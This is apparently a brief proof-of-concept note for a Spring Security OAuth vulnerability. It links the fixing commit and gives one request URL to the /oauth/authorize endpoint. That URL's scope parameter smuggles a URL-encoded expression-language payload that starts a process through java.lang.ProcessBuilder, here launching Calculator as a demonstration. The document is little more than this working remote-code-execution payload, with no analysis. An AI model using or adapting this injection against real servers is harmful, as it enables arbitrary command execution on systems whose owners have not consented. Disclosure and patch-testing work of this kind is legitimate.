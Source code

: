 # oauth2
patch
https://github.com/spring-projects/spring-security-oauth/commit/adb1e6d19c681f394c9513799b81b527b0cb007c#diff-e295771f3dccc6549499260adff3775fR108

poc
http://127.0.0.1:8080/oauth/authorize?client_id=tonr&redirect_uri=http://localhost:8089/sparklr/photos&response_type=code&scope=%24%7b(new+java.lang.ProcessBuilder(%22%2fApplications%2fCalculator.app%2fContents%2fMacOS%2fCalculator%22)).start()%7d&state=1uzRv2

